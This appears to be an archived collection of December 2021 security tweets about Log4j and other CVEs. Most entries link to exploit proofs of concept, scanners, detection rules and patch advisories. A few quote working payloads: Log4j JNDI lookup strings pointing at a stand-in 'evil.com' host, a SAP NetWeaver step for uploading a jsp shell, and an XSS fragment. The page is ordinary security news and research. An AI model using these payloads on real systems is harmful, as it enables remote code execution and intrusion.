

# Dinosn
**https://twitter.com/Dinosn/status/1476642810786942988 _at 2021-12-30 19:54:15_**
<blockquote>
A Collection of Chrome Sandbox Escape POCs/Exploits for learning

https://t.co/cPFNHUDud1
</blockquote>

* https://github.com/allpaca/chrome-sbx-db

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1476210760514785282 _at 2021-12-29 15:17:26_**
<blockquote>
My personalized Windows 10 re-creation of the HYDSEVEN exploit chain used to target Coinbase. This chain involves the use of a Firefox RCE (CVE-2019-11707) and Firefox sandbox escape (CVE-2019-11708) for shellcode execution as Medium Integrity https://t.co/E1fftDiltx
</blockquote>

* https://github.com/forrest-orr/Exploits/tree/main/Chains/Hydseven

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>189</code></td>
</tr></table>

---

# linkersec
**https://twitter.com/linkersec/status/1475870580540850179 _at 2021-12-28 16:45:41_**
<blockquote>
CVE-2021-44733: Fuzzing and exploitation of a use-after-free in the Linux kernel TEE subsystem

An article about a bug in the Trusted Execution Environment subsystem. By Patrik Lantz @pjlantz.

https://t.co/dPaOV5MV4S
</blockquote>

* https://github.com/pjlantz/optee-qemu/blob/main/README.md

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>111</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1475489097561083904 _at 2021-12-27 15:29:48_**
<blockquote>
Exploitation of CVE-2021-21220 – From Incorrect JIT Behavior to RCE  https://t.co/O1IUxgrhDi  #Pentesting #Exploit #RCE #CVE #CyberSecurity #Infosec https://t.co/Na2iutLTUr
</blockquote>

* https://www.zerodayinitiative.com/blog/2021/12/15/exploitation-of-cve-2021-21220-from-incorrect-jit-behavior-to-rce

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# pjlantz
**https://twitter.com/pjlantz/status/1475443674087575562 _at 2021-12-27 12:29:18_**
<blockquote>
Fuzzing and exploitation of a use-after-free in the Linux kernel TEE subsystem. https://t.co/aBZJwKnFlh
</blockquote>

* https://github.com/pjlantz/optee-qemu/blob/main/README.md

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>81</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1473839682173775874 _at 2021-12-23 02:15:37_**
<blockquote>
Deserialization of Untrusted Data in https://t.co/g2Yo8rT73I (CVE-2021-4118) reported by oivrip - Patch: https://t.co/eQrIqysW2L
https://t.co/WBYHJolF9m #bugbounty #infosec #opensource
</blockquote>

* https://github.com/pytorchlightning/pytorch-lightning
* https://github.com/pytorchlightning/pytorch-lightning/commit/62f1e82e032eb16565e676d39e0db0cac7e34ace
* https://huntr.dev/bounties/31832f0c-e5bb-4552-a12c-542f81f111e6/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# symeonp
**https://twitter.com/symeonp/status/1473775356301688838 _at 2021-12-22 22:00:01_**
<blockquote>
Playing with @0xeb_bp's CVE-2020-1054 (Win32k LPE exploit) initially found by Checkpoint research &amp; Qihoo 360 Vulcan using @tetrane's amazing Reven - this will be fun! Check it out if you're using the free version as well and want more practical windows analysis vulns/exploits! https://t.co/vpLln8T0rm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>43</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1473038315360239624 _at 2021-12-20 21:11:16_**
<blockquote>
GitHub - 34zY/Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit: CVE-2021-40444 https://t.co/scJQsTf1ZH
</blockquote>

* https://github.com/34zY/Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# FragmentedSoul5
**https://twitter.com/FragmentedSoul5/status/1473033615130992640 _at 2021-12-20 20:52:36_**
<blockquote>
#Log4j2-CVE-2021-44228
Remote Code Injection In Log4j
https://t.co/A7d1ShoDHm

local-#log4j-vuln-scanner
Simple local scanner for vulnerable log4j instances
https://t.co/UgcFvZnjSy

#log4shell-tester
https://t.co/xSt6s3E8L8

#Hacking #infosec #Linux #Pentesting #Java #Go #OpSec
</blockquote>

* https://github.com/jas502n/Log4j2-CVE-2021-44228
* https://github.com/hillu/local-log4j-vuln-scanner
* https://github.com/huntresslabs/log4shell-tester

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# cKure7
**https://twitter.com/cKure7/status/1472949061791764488 _at 2021-12-20 15:16:37_**
<blockquote>
■■■□□ CVE-2021-40444 exploit.

https://t.co/sznBa99UM4
</blockquote>

* https://github.com/34zY/Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1472929717938532353 _at 2021-12-20 13:59:45_**
<blockquote>
🐞 PoC for a Post-Auth RCE (CVE-2021-38163) in SAP NetWeaver. The vulnerability was found by our researcher Mikhail Klyuchnikov.

Reproduction steps:
1. Upload a jsp shell using the /irj/servlet/prt/portal/prtroot/com.sap.visualcomposer.VCParMigrator path
2. Execute OS commands https://t.co/iHqgYnT2lA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>165</code></td>
<td>Favorites: <code>390</code></td>
</tr></table>

---

# BTshell
**https://twitter.com/BTshell/status/1472847909066612739 _at 2021-12-20 08:34:40_**
<blockquote>
Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit https://t.co/U1CVOyTU7G
CVE-2021-40444 #Exploit
</blockquote>

* https://github.com/34zY/Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---

# 0xRyuk
**https://twitter.com/0xRyuk/status/1472846404305309697 _at 2021-12-20 08:28:41_**
<blockquote>
Some good privilege escalation resources, you can add more below :)
https://t.co/1N0Jd1rfKF
https://t.co/6JUYcZ1gxw

https://t.co/GyN1tfaKI8
Privilege Escalation Techniques: Learn The Art Of Exploiting Windows &amp; Linux Systems by @HackerSploit 
#infosec #cybersecuritytips #hacking
</blockquote>

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
* https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html
* https://gtfobins.github.io/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

# reconshell
**https://twitter.com/reconshell/status/1472586681664434177 _at 2021-12-19 15:16:38_**
<blockquote>
Windows AD privilege escalation

#PrivilegeEscalation #CVE-2021-42278 #Scanning
#Exploitation #Windows #Hacking #AD #RedTeam

@Emrullah_A @D3pak @ADITYASHENDE17 

https://t.co/KNdAaTmvfd
</blockquote>

* https://reconshell.com/windows-ad-privilege-escalation/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>164</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1472585318868164616 _at 2021-12-19 15:11:13_**
<blockquote>
created a minimal #log4shell vulnerable Java web app, building, running &amp; modifying is straightforward.

https://t.co/krHDwsPXJQ

RCE exploit path is tested and included using the JNDI Injection Exploit tool by @welk1n1 (on up-to-date Java with trustURLCodebase set to false). https://t.co/3pOFeVFq0N
</blockquote>

* https://github.com/tothi/log4shell-vulnerable-app

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>65</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1472546463536369672 _at 2021-12-19 12:36:50_**
<blockquote>
Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit
CVE-2021-40444

#Exploit to use in #metasploit, allows attackers to get an remote code execution through microsoft office word by injecting malicious code in the file

https://t.co/jkQcgFYmAm

3… https://t.co/Kq1J0wvEVT https://t.co/GoaGpsD1zO
</blockquote>

* https://github.com/34zY/Microsoft-Office-Word-MSHTML-Remote-Code-Execution-Exploit
* https://t.me/hackgit/2581

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Julznova
**https://twitter.com/Julznova/status/1472408315300696068 _at 2021-12-19 03:27:53_**
<blockquote>
I spoke too soon, as usual @cyb3rops has the best write up on #log4j CVE-2021-44228 exploit detection https://t.co/MVFZeD2Nvi
</blockquote>

* https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# Securityblog
**https://twitter.com/Securityblog/status/1472328116085399553 _at 2021-12-18 22:09:12_**
<blockquote>
GitHub - jas502n/Log4j2-CVE-2021-44228: Remote Code Injection In Log4j https://t.co/TxkfC4PThD
</blockquote>

* https://github.com/jas502n/Log4j2-CVE-2021-44228

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1472254703501258756 _at 2021-12-18 17:17:29_**
<blockquote>
📢 #Log4j Vulns ~

1) CVE-2021-44228 (RCE) - Critical
Payload: ${jndi:ldap://evil[.]com:1389/a}

2) CVE-2021-45046 (RCE) - Critical
Payload: ${jndi:ldap://127.0.0.1#evil[.]com:1389/a}

3) CVE-2021-45105 (DoS) - High
Payload: ${${::-${::-$${::-j}}}}

🛡️ https://t.co/5tGvl1URht https://t.co/FOyB1HcstQ
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>430</code></td>
</tr></table>

---

# Laughing_Mantis
**https://twitter.com/Laughing_Mantis/status/1471904726530740225 _at 2021-12-17 18:06:48_**
<blockquote>
#Log4J Update!

CVE-2021-45046, aka the 2nd bug that was found in version 2.15 and initially believed to be a denial of service, has in fact been found to be a RCE vuln in limited conditions

Cvss is now 9.0 not 3.7!

Attackers are attempting this vuln ITW

PATCH TO 2.16 *NOW*
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

# snovvcrash
**https://twitter.com/snovvcrash/status/1471829627765239816 _at 2021-12-17 13:08:23_**
<blockquote>
[HackTip ⚒] A quick way to perform CVE-2021-42278 / CVE-2021-42287 (aka sAMAccountName Spoofing) controlled exploitation from a beacon session without 'auto pwning' tools 👾 https://t.co/q1ckhkKd89
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# christophetd
**https://twitter.com/christophetd/status/1471823969548488710 _at 2021-12-17 12:45:54_**
<blockquote>
The second Log4j vulnerability (CVE-2021-45046) identified in 2.15.0, was just reclassified from "DoS" to "RCE" and had its CVSS score bumped from 3.7 to 9.0🙉

Upgrade to 2.16!

https://t.co/79pBar8qzq
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day-severity-of-cve-2021-45046-increased/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# elhackernet
**https://twitter.com/elhackernet/status/1471820723714932740 _at 2021-12-17 12:33:00_**
<blockquote>
🪟 Microsoft parchea un 0day usado para propagar Emotet
🔃Corrige vulnerabilidad que suplanta la identidad del instalador de AppX afectando a Microsoft Windows (CVE-2021-43890).
*⃣ Familias de malware como Emotet, TrickBot o Bazaloader
https://t.co/1AvZZ0q4T5 https://t.co/jbn9IKUj1p
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43890

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# marcwrogers
**https://twitter.com/marcwrogers/status/1471820651010961412 _at 2021-12-17 12:32:42_**
<blockquote>
CVE-2021-45046 changed from CVSS 3.7 to 9.0 due to it being determined that the issue was an RCE in Log4j 2.15 and NOT a DOS as first assessed. Recommend reassessing mitigation and exposure.

https://t.co/SnzaW8lyoc
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td>Quotes: <code>31</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>361</code></td>
</tr></table>

---

# GossiTheDog
**https://twitter.com/GossiTheDog/status/1471791074314276867 _at 2021-12-17 10:35:11_**
<blockquote>
Log4j hype check: the new CVE-2021-45046:

- only applies in certain *non-default* configurations
- remote code execution has been demonstrated on *macOS* - not reproducible in other test environments
- no exploitation seen in wild

Not many orgs will be hosting webapps on MacOS.
</blockquote>

<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>152</code></td>
<td>Favorites: <code>757</code></td>
</tr></table>

---

# ankit_anubhav
**https://twitter.com/ankit_anubhav/status/1471746747735044098 _at 2021-12-17 07:39:03_**
<blockquote>
The second exploit CVE-2021-45046 severity is now raised 9.0 instead of the 3.7

Also Apache themselves are saying RCE is possible so we have to trust it. It's not just DOS.

https://t.co/1Ha7SPdbVu

#log4j #log4shell https://t.co/kSYnYs0eWE
</blockquote>

* https://logging.apache.org/log4j/2.x/security.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# GobySec
**https://twitter.com/GobySec/status/1471401358540800002 _at 2021-12-16 08:46:35_**
<blockquote>
🚩New vulnerability: HD-Network Real-time Monitoring System 2.0 Local File Inclusion (CVE-2021-45043)
（RedTeam version）#Goby #CVE #monitoring 

More Vulnerabilities, https://t.co/wkYqnJYaAJ
Details ➡️ https://t.co/uI4YmQUjFv
https://t.co/h9aOZgKq0u https://t.co/o3zxspUVaR
</blockquote>

* http://github.com/gobysec/GobyVuls
* http://t.me/gobies
* https://t.me/joinchat/ENkApMqOonRhZjFl

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# hostifi_net
**https://twitter.com/hostifi_net/status/1471125596457549825 _at 2021-12-15 14:30:49_**
<blockquote>
We're working on updating all of our servers to #UniFi Network version 6.5.55 today to patch CVE-2021-45046.

This was reported as a DoS vulnerability, not RCE, and no exploits against UniFi are known at this time, but we're still pushing this update out immediately. https://t.co/bdLprjme4s
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1471029593964433411 _at 2021-12-15 08:09:20_**
<blockquote>
HackGit
Exploiting CVE-2021-42287/CVE-2021-42278 (Linux) https://t.co/081nTDJWpg #ad #pac #s4u2self #windows #redteam https://t.co/rv5262huF1

Pachine
Python implementation for #CVE-2021-42278 (AD Privilege Escalation)

https://t.co/Msyrqq4hPZ

GitHub… https://t.co/6Ieqxx1CvA https://t.co/L5qDOGqmTU
</blockquote>

* https://github.com/WazeHell/sam-the-admin
* https://t.me/hackgit/2410
* https://github.com/ly4k/Pachine
* https://t.me/hackgit/2480

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# cckuailong
**https://twitter.com/cckuailong/status/1470995251867549696 _at 2021-12-15 05:52:52_**
<blockquote>
#log4j 2.15.0 Privilege Escalation Poc
CVE-2021-45046

https://t.co/RatUs30O3q https://t.co/MAZvdxjfTi
</blockquote>

* https://github.com/cckuailong/Log4j_CVE-2021-45046

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# jschauma
**https://twitter.com/jschauma/status/1470924121655623689 _at 2021-12-15 01:10:13_**
<blockquote>
Developers confirmed: 2.15.0 is insufficient against RCE. Upgrade required not merely for the DoS.

https://t.co/0aPFHSK4Sv
</blockquote>

* https://github.com/apache/logging-log4j2/pull/608#issuecomment-994184923

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# LunaSecIO
**https://twitter.com/LunaSecIO/status/1470863392692867074 _at 2021-12-14 21:08:54_**
<blockquote>
We just updated our Mitigation Guide with the 2nd log4j vulnerability (CVE-2021-45046).

It's RCE for log4j &lt;=2.14.1 in limited contexts even w/ NO_LOOKUPS set, and DOS for 2.15.0, but we're still investigating and will publish a dedicated write-up soon.
https://t.co/gStrZFGV2Z
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1470817659893821450 _at 2021-12-14 18:07:11_**
<blockquote>
The Microsoft December 2021 Patch Tuesday is out with fixes for 83 vulnerabilities.

A patch for the actively exploited CVE-2021-43890  zero-day in the Windows AppX Installer was also included.

https://t.co/y7iODjjBaZ https://t.co/mi6PSZSN1i
</blockquote>

* https://rawcdn.githack.com/campuscodi/Microsoft-Patch-Tuesday-Security-Reports/b8b6957e33171f633ada139a162df7066765f32b/Reports/MSRC_CVEs2021-Dec.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# podalirius_
**https://twitter.com/podalirius_/status/1470814871327551498 _at 2021-12-14 17:56:06_**
<blockquote>
For this 14th day of #CyberAdvent I'm releasing an exploit tool for a Local File Inclusion #vulnerability in #MailMasta wordpress plugin (CVE-2016-10956). This tool allows to read multiple files on the remote server from wordlists.

https://t.co/RijPukiKLE
</blockquote>

* https://github.com/p0dalirius/CVE-2016-10956_mail_masta

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>9</code></td>
</tr></table>

---

# 0xInfection
**https://twitter.com/0xInfection/status/1470802511686561795 _at 2021-12-14 17:06:59_**
<blockquote>
Since the final fix for the #log4j RCE vulnerability is out — I'm finally open-sourcing a scanning toolkit for CVE-2021-44228 that I developed over the weekend. Features include automatic Canary Tokens generation, request customization and many others. :)

https://t.co/0KOOewcFLW
</blockquote>

* https://github.com/0xInfection/LogMePwn

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>316</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1470768412003602441 _at 2021-12-14 14:51:29_**
<blockquote>
PoC for a stored XSS in https://t.co/V1D61pmt0X (CVE-2021-22886). The vulnerability was found by our researcher Igor Sak-Sakovskiy.

Payload: 
https://t.co/RMWVhv8m1I&lt;https://t.co/uiEn4ir42y; a|Text&gt;th/a https://t.co/pUeWaDSP4j
</blockquote>

* http://Rocket.Chat
* http://www.google.com
* http://www.google.com/pa
* http://google.com/onmouseover=alert(1)

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# theCyberGuy0
**https://twitter.com/theCyberGuy0/status/1470669811269181444 _at 2021-12-14 08:19:41_**
<blockquote>
Received my first CVE due to finding and exploiting Local File Inclusion [LFI] in HD-Network Real-time Monitoring System - 2.0.

CVE ID: CVE-2021-45043

Alhamdulilah ❤️❤️

#cybersecurity #cve #infosecurity #infosec
#cybersec #bugbounty #bughunting
#informationsecurity #0day #lfi https://t.co/6pdPmK8e48
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>101</code></td>
</tr></table>

---

# waiha8
**https://twitter.com/waiha8/status/1470560620110282753 _at 2021-12-14 01:05:48_**
<blockquote>
“Samir on Twitter: "detection of exploitation of the CVE-2021-42287 (samAccountName spoofing)/CVE-2021-42278 https://t.co/hsTumXZpRk… https://t.co/sFuuCG7H8T"” https://t.co/lYwfb7N4bw
</blockquote>

* https://github.com/elastic/detection-rules/blob/a5359ca675267220afedf67795cd1fd04881b2c8/rules/windows/privilege_escalation_samaccountname_spoofing_attack.toml
* https://twitter.com/i/web/status/1470117387626291202
* https://htn.to/yPfKeQwuBL

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1470546087442366469 _at 2021-12-14 00:08:03_**
<blockquote>
CISA has created a new webpage to help track and take action against the Apache Log4j #RCE vulnerability CVE-2021-44228. Read more at https://t.co/5UPFpnhhii. #Cybersecurity #InfoSec
</blockquote>

* https://go.usa.gov/xeHB2

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>176</code></td>
</tr></table>

---

# MalwareTechBlog
**https://twitter.com/MalwareTechBlog/status/1470509062366253056 _at 2021-12-13 21:40:55_**
<blockquote>
Quick walkthrough of how the log4j (CVE-2021-44228) vulnerability works
https://t.co/bE5yLGF15w
</blockquote>

* https://www.youtube.com/watch?v=0-abhd-CLwQ

<table><tr>
<td>Quotes: <code>22</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>276</code></td>
<td>Favorites: <code>935</code></td>
</tr></table>

---

# cyberstruggle
**https://twitter.com/cyberstruggle/status/1470487741305606144 _at 2021-12-13 20:16:12_**
<blockquote>
A simple and all in one exploit for log4j vulnerability https://t.co/ChDWIXc41A
</blockquote>

* https://github.com/cyberstruggle/L4sh

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# hackinarticles
**https://twitter.com/hackinarticles/status/1470426143618584582 _at 2021-12-13 16:11:26_**
<blockquote>
Best of SQL Injection Cheatsheet for OSCP

https://t.co/5UerYQidX7

https://t.co/CCNukKgGgJ

https://t.co/ZncN8QfYDo

https://t.co/4fprpTQQQ3

#infosec #cybersecurity #pentesting #oscp  #informationsecurity  #hacking #cissp #redteam #DataSecurity #CyberSec #database #sql https://t.co/lPf9hKZapH
</blockquote>

* https://pentestmonkey.net/category/cheat-sheet/sql-injection
* https://github.com/AdmiralGaust/SQL-Injection-cheat-sheet
* https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
* https://www.pcwdld.com/sql-cheat-sheet#wbounce-modal

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>136</code></td>
</tr></table>

---

# pedrohavay
**https://twitter.com/pedrohavay/status/1470218919940132869 _at 2021-12-13 02:28:00_**
<blockquote>
PoC exploit (Python) for CVE-2021-44228 vulnerability in Log4j, allows for loading Java code and classes remotely from servers.

https://t.co/aZk6Ed8zJb

#log4j #poc #bugbountytips #exploit
</blockquote>

* https://github.com/pedrohavay/exploit-CVE-2021-44228

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# razielowfsky
**https://twitter.com/razielowfsky/status/1470202924961878019 _at 2021-12-13 01:24:27_**
<blockquote>
test your services against the latest log4j 0day vulnerability using OWASP Nettacker

python3 https://t.co/V5xIBzFP17 -i https://t.co/0j7QW0JBxp -m log4j_cve_2021_44228_vuln -o owasp.csv --skip-service-discovery

https://t.co/mWkES6xf6O
</blockquote>

* http://nettacker.py
* http://owasp.org
* https://github.com/OWASP/Nettacker

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>269</code></td>
</tr></table>

---

# vish_hal
**https://twitter.com/vish_hal/status/1470159412841037828 _at 2021-12-12 22:31:32_**
<blockquote>
Day 67 of #100DaysofBugBounty

-Pwned Markup machine of @hackthebox_eu {learned about XML external entity and window privilege escalation}
-Watched YouTube video of @_JohnHammond  on CVE-2021-4428 ,Log4j 
https://t.co/Q1yNYV4qOa
</blockquote>

* https://github.com/vish-hal/100DaysofBugBounty/blob/main/Days/Day67.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1470110582288584705 _at 2021-12-12 19:17:30_**
<blockquote>
#CVE-2021-44228

Advanced usage Remote Code Injection In Log4j

https://t.co/TQb4WvPWwi
</blockquote>

* https://github.com/jas502n/Log4j2-CVE-2021-44228

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>224</code></td>
</tr></table>

---

# gh_trending_
**https://twitter.com/gh_trending_/status/1470016352878571524 _at 2021-12-12 13:03:04_**
<blockquote>
📦 Log4J-RCE-Proof-Of-Concept
👤 @HyCraftHD
⭐ 57 (+20)
🗒 Java

Log4j-RCE (CVE-2021-44228) Proof of Con...
https://t.co/fDlPc5M0gq
</blockquote>

* https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# chen_erlich
**https://twitter.com/chen_erlich/status/1469987223407894529 _at 2021-12-12 11:07:19_**
<blockquote>
A gist repo of commands and rules to search for exploitation attempts against log4j RCE vulnerability CVE-2021-44228 🔥https://t.co/zgQkVHbg8I
</blockquote>

* https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---
